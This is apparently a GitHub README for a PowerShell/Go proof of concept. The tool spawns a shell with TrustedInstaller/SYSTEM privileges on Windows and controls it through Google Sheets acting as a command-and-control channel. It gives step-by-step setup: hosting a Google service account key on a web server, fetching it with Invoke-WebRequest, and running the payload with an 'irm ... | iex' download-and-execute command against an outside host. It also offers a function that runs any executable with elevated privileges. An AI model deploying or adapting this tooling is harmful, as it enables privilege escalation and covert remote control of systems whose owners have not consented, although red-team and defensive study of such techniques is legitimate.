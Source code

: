 # TrustedInstallerPOC-GC2-Sheet

A simple Proof of Concept in Powershell/Go to spawn a new shell as NT Authority\System using Google Sheets as a C2 interface. Read more about how this PoC works on this [blog about TrustedInstaller](https://fourcore.io/blogs/no-more-access-denied-i-am-trustedinstaller) and [GC2-sheet](https://github.com/looCiprian/GC2-sheet). It is important to note that this should be executed as a user which has SeDebugPrivileges. This repository leverages forked repositories: looCiprian/GC2-sheet and FourCoreLabs/TrustedInstallerPOC.

## Configuration

The Powershell script ti2.ps1 pulls nathansb2022/GC2-sheet-Scripted, nathansb2022/TrustedInstallerPOC-GC2-Sheet, and go1.21.12.windows-amd64.zip. Lastly, ti2.ps1 is configured to pull your Google service account .json key. See below for alternative method. For Google Sheets and Drive setup reference [GC2-Sheet-Scripted](https://github.com/nathansb2022/GC2-sheet-Scripted).

## POC

1. Clone the repository

```
$ git clone https://github.com/nathansb2022TrustedInstallerPOC-GC2-Sheet.git
```

2. Ensure you have a web server hosting your Google service account .json key or drop in GC2-Sheet-Scripted-Master

```
$ python3 -m uploadserver 80
```

3. Optional: If you are adding the .json key manually remove line 42 from ti2.ps1

```
Invoke-WebRequest -Uri $keyFileUrl -UseBasicParsing -OutFile ".\master\GC2-sheet-Scripted-master\$myKey"
```

4. Edit ti2.ps1 and define variables

```
$myUrl = ""
$myKey = ""
$mySheetId = ""
$myDriveId = ""
```

6. Either call the ti2.ps1 or execute it in go

```
$ .\ti2.ps1
```
```
$ irm http://$myUrl/ti2.ps1 | iex
```
```
$ go run ti $myKey $mySheetId $myDriveId
```


This will spawn a new cmd shell with TrustedInstaller privileges in Google Sheets which can be confirmed by running the command `whoami /all`

<p align="center">
  <img alt="Logo" src="img/Screenshot from 2024-08-11 20-10-32.png" height="70%" width="95%">
</p>

## API

- RunAsTrustedInstaller
  - Use the `RunAsTrustedInstaller` function to pass any executable to be run with TrustedInstaller privileges.
